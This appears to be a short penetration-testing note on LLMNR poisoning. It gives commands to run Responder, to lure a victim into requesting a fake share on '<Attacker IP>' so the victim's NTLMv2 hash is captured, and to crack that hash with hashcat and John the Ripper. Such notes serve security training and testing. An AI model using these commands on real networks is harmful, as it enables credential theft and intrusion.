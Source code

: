 # LLMNR Poisoning

## Practical

### Capture NTLMv2 Hash

#### Start Responder

```
sudo responder -I eth0
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Responder </p></figcaption></figure>

{% hint style="info" %}
Note: You have to request for an non existent share in the victim machine

\\\\\<Attacker IP>\FakeShare
{% endhint %}

#### Captured Hash

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Crack NTLMv2 Hash

#### Hashcat

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Hashcat</p></figcaption></figure>

#### John

```
john --wordlist=<wordlist.txt> hash.txt
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>John The Ripper</p></figcaption></figure>
